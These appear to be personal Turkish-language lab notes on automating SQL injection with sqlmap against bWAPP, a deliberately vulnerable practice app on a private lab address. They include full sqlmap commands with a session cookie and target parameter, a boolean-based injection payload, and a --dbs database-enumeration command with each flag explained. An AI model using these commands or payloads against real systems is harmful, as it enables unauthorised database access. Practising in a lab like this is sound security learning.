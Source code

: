 ### BURADA SQLMAP çalıştıracağız. #sqlmap 'e veriler vermemiz gerekiyor ki attack'ı yapsın. SQL injection işlemini otomatize gerçekleştirsin. Biz sisteme login olduğumuzda ve JOE ismini text box da arattığımızda web page bir credential cookie ve bir get request oluşturuyor bunu sadece BurpSuite ile ben görebilirim. #sqlmap e ben attack yapılacak url'li get bolumundeki yerden alıyorum. login olmak için oluşturulan credentials'i veriyorum ve ayrıca TITLE bolumune sql injection yapılacağı için -p switch ile bunu veriyorum ve sonuç bekleyeceğim.
##### sqlmap -u "http://10.0.2.6/bWAPP/sqli_1.php?<span style="background:#ff4d4f">title</span>=JOE&action=search" --cookie "security_level=0; PHPSESSID=cb1324974388c7f7b9d023c4ae37694b" -p <span style="background:#d4b106">title</span>
![[Pasted image 20240504233008.png]]

![[Pasted image 20240504234434.png]]

### title=JOE' OR NOT 2377=2377#&action=search






## SQLMAP DATABASE
### #sqlmap-database
### Burada database'de hangilerine erişebiliriz bunu enumerate ediyoruz
##### sqlmap -u "http://10.0.2.6/bWAPP/sqli_1.php?<span style="background:#ff4d4f">title</span>=JOE&action=search" --cookie "security_level=0; PHPSESSID=cb1324974388c7f7b9d023c4ae37694b" -p <span style="background:#d4b106">title</span> --dbs
![[Pasted image 20240504235504.png]]
Bu kod, 
- `-u "http://10.0.2.6/bWAPP/sqli_1.php?title=JOE&action=search"`: Saldırının yapılacağı hedef URL'sini belirtir. Burada `title` parametresi üzerinde bir SQL enjeksiyonu yapılacak gibi görünüyor.
    
- `--cookie "security_level=0; PHPSESSID=cb1324974388c7f7b9d023c4ae37694b"`: Saldırıyı gerçekleştirecek kullanıcının oturum bilgilerini belirtir. Bu oturum bilgileri, sunucuya yapılan isteklerin doğrulanması için kullanılır.
- `-p title`: SQL enjeksiyonu yapılacak parametreyi belirtir. Burada `title` parametresi üzerinde SQL enjeksiyonu yapılacak.
- `--dbs`: Veritabanlarını listelemek için kullanılan bir seçenektir. Bu, SQLmap'ın belirtilen hedefteki mevcut veritabanlarını tespit etmesini sağlar.
- Yani, bu komut verilen URL'deki `title` parametresi üzerinde SQL enjeksiyonu yaparak, veritabanlarını listelemeye çalışacaktır.
